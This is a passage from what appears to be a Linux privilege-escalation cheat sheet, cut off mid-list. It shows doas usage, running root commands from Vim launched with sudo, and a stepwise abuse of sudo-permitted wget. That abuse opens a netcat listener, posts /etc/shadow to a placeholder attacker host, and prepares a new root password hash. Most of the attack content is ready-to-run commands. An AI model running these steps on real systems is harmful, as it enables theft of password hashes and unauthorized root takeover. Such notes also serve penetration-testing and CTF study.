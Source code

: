     **doas** executes commands as another user. **"doas.conf"** is interesting to privilege escalation.

    ```sh
    doas -u root <command> <arg>
    doas -C /etc/doas.conf
    ```

5. **Vim as Root Privileges**

    ```sh
    sudo vim /example.txt
    ```

    In Vim editor, run commands as root.

    ```sh
    :r!whoami
    ```

6. **Wget Abuses /etc/shadow**

    Get /etc/shadow and generate a new hash passwd and set it to shadow file, then upload it. That changes the root password.

    1. **Check User Privileges and Commands**

        If you find that 'wget' is executable as root, you can abuse /etc/shadow and create a new root user.

        ```sh
        sudo -l

        (root) NOPASSWD: /usr/bin/wget
        ```

    2. **Open Listener in Local Machine**

        ```sh
        nc -lvnp 4444
        ```

    3. **Display the Content of /etc/shadow into Local Machine**

        In remote machine,

        ```sh
        sudo /usr/bin/wget --post-file=/etc/shadow <local-ip> 4444
        ```

        Then you can see the content of /etc/shadow in your local listener.

    4. **Copy the Content of /etc/shadow to a New Shadow File in Your Local Machine**

        ```sh
        vim shadow.txt
        ```

    5. **Generate a New Hash Password for a New Root User in Your Local Machine**

        You will create a new root user in a later section.
